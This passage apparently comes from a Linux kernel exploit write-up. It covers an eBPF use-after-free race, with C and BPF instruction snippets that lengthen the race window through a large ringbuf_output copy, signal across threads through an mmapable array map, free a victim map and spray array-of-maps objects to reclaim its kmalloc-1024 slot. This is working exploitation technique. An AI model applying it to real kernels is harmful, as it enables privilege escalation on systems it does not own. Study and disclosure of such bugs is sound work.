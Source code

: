If buf size is large, it will take some time to finish.  
It will be a good choice to extend the race windows for release and reclaim.  

```C
// do time comsume operation using BPF_FUNC_ringbuf_output copy large size buffer
BPF_MOV64_REG(BPF_REG_1, BPF_REG_6),
BPF_MOV64_REG(BPF_REG_2, BPF_REG_7),
BPF_MOV64_IMM(BPF_REG_3, 0x10000000),
BPF_MOV64_IMM(BPF_REG_4, 0x0),
BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_ringbuf_output)
```

Once the thread on one core is busy at bpf program. 
We use another thread in another core to free and reclaim.
Using a mmapable bpf to get the signal from bpf to nodify us we can start free.

```c
// Create a mmapable arraymap to signal we have stored target arraymap
	int signal = bpf_create_map_mmap(BPF_MAP_TYPE_ARRAY, 4, 8, 0x30, 0);
		// mmap arraymap region for userspace to know signal.
	signal_addr = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED,
			   signal, 0);
```

thread0 write value `1` into our signal arraymap
```c
		BPF_LD_MAP_FD(BPF_REG_9, signal),
		BPF_MAP_GET_ADDR(0, BPF_REG_7),
		BPF_ST_MEM(
			BPF_W, BPF_REG_7, 0,
			1), // write value one to signal that we have stored target arraymap

```

thread1 busy wait until signal_addr become `1` and start free target
```c
	while (signal_addr[0] == 0)
		;
	// Free target
	update_elem(array_of_map, 0, victim);
```

thread2 busy wait until signal_addr become `1` and start spray to reclaim as array_of_maps.
Max_entries as 0x30 is to make sure reclaim array_of_maps in kmalloc-1024 which as cache as arraymap.

```c
	while (signal_addr[0] == 0)
		;
	for (int i = 0; i < 0x100; i++) {
		spray_fd[i] = bpf_create_map(BPF_MAP_TYPE_ARRAY_OF_MAPS, 4, 4,
					     0x30, samplemap);
		update_elem(spray_fd[i], 0, victim);
	}

```
